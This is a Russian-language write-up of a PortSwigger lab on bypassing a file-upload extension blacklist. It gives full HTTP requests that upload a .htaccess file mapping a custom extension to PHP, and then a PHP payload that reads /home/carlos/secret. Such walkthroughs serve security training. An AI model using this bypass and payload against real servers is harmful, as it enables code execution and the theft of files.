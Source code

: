```yaml
---
title: "Web shell upload via extension blacklist bypass"
date: 2025-08-14
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/file-upload-vulnerabilities/insufficient-blacklisting-of-dangerous-file-types/file-upload/lab-file-upload-web-shell-upload-via-extension-blacklist-bypass"
classes: wide
---
```


В данной лабе содержится уязвимость **в загрузке файлов**. Для прохождения нужно получить доступ к файлу `/home/carlos/secret` и передать его содержимое в форму проверки.

Для входа в аккаунт можно использовать данные `wiener`:`peter`.

```
https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/
```

## Solution

Воду в аккаунт, чтобы получить доступ к форме загрузки файлов.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/1.png){: height="200" .align-center}

Попробую загрузить `php` файл.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/2.png){: height="200" .align-center}

Не удивительно, так как в названии лабы фигурует `blacklist bypass`. Значит нужно найти такое расширение, что не в ходит в этот черный список. Для этого воспользуюсь [вот этой репой](https://github.com/mathiasbynens/small/blob/master/.htaccess) на github. Ее я позаимствовал из [этого поста](https://t.me/hahacking/78). Начну попорядку с `.htaccess`:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/3.png){: height="200" .align-center}

Получилось.

`.htaccess` — это конфигурационный файл веб-сервера Apache, позволяющий управлять работой веб-сервера и настройками сайта с помощью различных параметров (директив) без изменения основного конфигурационного файла веб-сервера. С помощью `AddType` я могу попробовать добавить обработку файлов с кастомным расширенем, как `php`. Попробую добавить такую функцию для файлов с расширением `.puff`:

```
AddType application/x-httpd-php .puff
```

Для его загрузки я использовал следующий запрос:

```http
POST /my-account/avatar HTTP/2
Host: 0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Cookie: session=MUneXoiixITp6h2Iy4DHhUQKbaGDR25i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Length: 503
Origin: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="avatar"; filename=".htaccess"
Content-Type: text/plain

AddType application/x-httpd-php .puff

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="csrf"

EzdYpDrLgbd2oNGEp3JW5XUNt8ZSIart
------geckoformboundary41871252b645ac21f606ea84fc3319e9--
```

Поле `Content-Type` я заменил на `text/plain`, а имя файла `filename` на `.htaccess`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/4.png){: height="200" .align-center}

Файл успешно сохранен, значит можно протестировать `.puff` файл. Для этого переименую `php` файл в `exploti.puff` и загружу его на сайт, заменив `Content-Type` на `application/x-httpd-php`.

```http
POST /my-account/avatar HTTP/2
Host: 0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Cookie: session=MUneXoiixITp6h2Iy4DHhUQKbaGDR25i
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:136.0) Gecko/20100101 Firefox/136.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net/my-account
Content-Type: multipart/form-data; boundary=----geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Length: 537
Origin: https://0a9a00e203a659eb81828eb000a10062.web-security-academy.net
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="avatar"; filename="exploit.puff"
Content-Type: application/x-httpd-php

<?php echo file_get_contents('/home/carlos/secret'); ?>

------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="user"

wiener
------geckoformboundary41871252b645ac21f606ea84fc3319e9
Content-Disposition: form-data; name="csrf"

EzdYpDrLgbd2oNGEp3JW5XUNt8ZSIart
------geckoformboundary41871252b645ac21f606ea84fc3319e9--
```

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/5.png){: height="200" .align-center}

Время проверить свою аватарку)

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/6.png){: height="200" .align-center}

Сдам токен `7GvfAzPQ9moCc5oEgdtXqldiB0LxX2Kr` в форму проверки для прохождения лабы.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_file_upload/IMG_Web_shell_upload_via_extension_blacklist_bypass/7.png){: height="200" .align-center}
